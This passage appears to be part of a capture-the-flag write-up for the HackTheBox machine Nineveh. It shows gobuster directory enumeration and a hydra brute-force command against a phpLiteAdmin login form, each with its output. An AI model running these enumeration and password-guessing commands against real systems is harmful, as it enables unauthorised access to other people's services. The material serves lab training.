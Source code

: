 ```
# /opt/gobuster/gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://nineveh.htb  -l -x html,php,js,txt -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://nineveh.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php,js,txt
[+] Timeout:        10s
===============================================================
2019/09/24 02:08:52 Starting gobuster
===============================================================
/index.html (Status: 200) [Size: 49]
/db (Status: 301) [Size: 309]
/server-status (Status: 403) [Size: 300]
/secure_notes (Status: 301) [Size: 319]
```


### https://nineveh.htb/db/

![](img/https_10.10.10.43_db.png)

phpLiteAdmin v1.9

Warning: rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114

```
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect:H=Cookie: PHPSESSID=s1soh390fah01sfvojpgovrc15" 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-24 04:24:28
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect:H=Cookie: PHPSESSID=s1soh390fah01sfvojpgovrc15
[443][http-post-form] host: 10.10.10.43   login: admin   password: kelvin
[443][http-post-form] host: 10.10.10.43   login: admin   password: peter
[443][http-post-form] host: 10.10.10.43   login: admin   password: gothic
```
